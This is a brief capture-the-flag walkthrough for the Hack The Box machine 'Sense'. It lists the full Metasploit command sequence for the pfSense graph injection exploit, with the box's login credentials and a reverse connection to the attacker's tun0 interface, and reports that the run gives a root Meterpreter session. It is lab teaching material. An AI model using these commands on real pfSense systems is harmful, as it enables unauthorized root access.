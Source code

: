 # Alternative way to exploit Sense

An alternative way to exploit the box Sense is by using **Metasploit** after knowing the credentials.

```markdown
use exploit/unix/http/pfsense_graph_injection_exec

set LHOST tun0

set RHOSTS 10.10.10.60

set USERNAME rohit
set PASSWORD pfsense

set ReverseAllowProxy true

exploit
```

This starts a Meterpreter session as root.
